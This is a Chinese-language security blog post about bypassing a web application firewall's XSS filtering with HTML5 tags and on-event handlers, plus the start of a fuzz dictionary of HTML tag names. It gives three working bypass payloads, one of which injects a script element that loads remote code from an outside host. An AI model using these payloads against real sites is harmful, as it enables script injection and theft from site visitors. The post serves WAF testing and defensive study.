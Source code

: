 - - -

说实话，我在测这个 waf 时，过程很顺利，可能是我测过几个 waf 的原因，感觉对 xss 检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于 HTML5 新出的几个标签属性还是没过滤的，还有少数 waf，on 事件没过滤全，可能有些 on 事件属于比较鸡肋的原因。

Bypass payload:

```bash
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz 字典

- - -

为什么我很快能得到 Bypass payload 呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

[![](assets/1698897346-e69549047488b3872d142fc2b9af2efd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7de1bf82-0da1-1.png)

(一个 xss 的基本结构)

#### \[TAG\]标签

- - -

标签方便也很简单，就多关注 HTML 新出了那些标签。

```bash
a
abbr
acronym
address
applet
area
article
aside
audio
b
base
basefont
bdi
bdo
big
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
datalist
dd
del
details
dfn
dialog
```